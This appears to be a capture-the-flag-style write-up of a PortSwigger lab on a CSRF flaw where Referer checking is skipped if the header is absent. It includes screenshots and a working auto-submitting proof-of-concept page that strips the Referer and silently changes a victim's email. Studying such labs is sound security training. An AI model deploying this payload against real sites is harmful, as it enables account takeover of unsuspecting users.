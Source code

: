 # CSRF where Referer validation depends on header being present

Lab URL :- `https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present`

![image](https://user-images.githubusercontent.com/60841283/182661299-0181fdf8-5f0e-4b8b-9105-3b2c29831efd.png)

Email update request :- 

![image](https://user-images.githubusercontent.com/60841283/182661391-8d300d17-6751-4b75-9734-8be73ecb5c92.png)

Changing Referer header :- 

![image](https://user-images.githubusercontent.com/60841283/182661865-6c29a82c-9d0f-427c-b236-4d9877f8ab5b.png)

Removing header :- 

![image](https://user-images.githubusercontent.com/60841283/182661990-66cfa8c4-1d20-4855-a241-02c9fe9eea8a.png)

Suppress header :- `https://stackoverflow.com/questions/6817595/remove-http-referer`

CSRF POC in exploit server :- 

```html
<html>
	<head>
		<meta name="referrer" content="no-referrer">
	</head>
	<body>
		<h1>CSRF POC</h1>
		<iframe style="display: none;" name="csrf-iframe"></iframe>
		<form action="https://0a2700d60302e214c050b88f007e002e.web-security-academy.net/my-account/change-email" method="post" id="csrf-id" target="csrf-iframe">
			<input type="hidden" name="email" value="lol@lol.com">
		</form>
		<script>document.getElementById("csrf-id").submit()</script>
	</body>
</html>
```

![image](https://user-images.githubusercontent.com/60841283/182662150-9267f459-87dd-4f61-8700-4030265cf006.png)

